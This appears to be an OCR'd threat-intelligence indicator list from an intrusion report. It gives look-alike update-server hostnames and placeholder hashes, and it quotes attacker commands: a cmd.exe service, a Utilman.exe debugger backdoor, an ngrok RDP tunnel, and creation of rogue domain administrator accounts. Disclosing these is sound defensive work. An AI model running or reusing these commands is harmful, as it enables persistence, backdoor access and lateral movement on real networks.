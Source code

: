 * hostname: serveur1.hopto.org
* hostname: update.mcafee-endpoint.com
* hostname: update.microsoft-af.com
* hostname: update.kaspersky-lab.org
* hostname: windowsupdaters.zapto.org
* hostname: windowsupgraders.ddns.net
* hostname: winsec.ddns.net
* hostname: winsec.senegalsante.org
* hostname: winsec.warii.club
* hostname: wsus.microsoft-af.com

### Other
* comment: sc create “WindowsUpdate” binpath= “cmd /c start “%WINDIR%\system32\cmd. exe””&&sc config “WindowsUpdate” start= auto&&net start WindowsUpdate — To escalate privileges the attacker used following techniques additional to LPE exploits
* comment: reg add “HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Utilman.exe” /v Debugger /t REG_SZ /d “%WINDIR%\system32\cmd. exe — To escalate privileges the attacker used following techniques additional to LPE exploits
* comment: C:\Intel\ngrok.exe” start --all --config=”C:\Intel\config.yml — Once they gained access to some servers, they launched the port- forwarding software ngrok (https://ngrok.com/) on the servers to tunnel the RDP port
* comment: net user /domain Admins Sb021015 /add — The operators created their own domain administrator accounts which were used later for accessing the infrastructure and for lateral movement purposes
* comment: net group /domain “Domain Admins” Admins /add net group /domain “RDP_Admin” Admins /add — The operators created their own domain administrator accounts which were used later for accessing the infrastructure and for lateral movement purposes
* comment: net localgroup Administrateurs guichet6 /Add — The operators created their own domain administrator accounts which were used later for accessing the infrastructure and for lateral movement purposes
* comment: net user Update Sb021015 /add — The operators created their own domain administrator accounts which were used later for accessing the infrastructure and for lateral movement purposes
* comment: net localgroup Administrators Update /add — The operators created their own domain administrator accounts which were used later for accessing the infrastructure and for lateral movement purposes
* comment: net localgroup “Remote Desktop Users” Update /add — The operators created their own domain administrator accounts which were used later for accessing the infrastructure and for lateral movement purposes

### Payload delivery
* sha1: <sha1>
* sha1: <sha1>
* sha1: <sha1>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5> — psexec
* md5: <md5>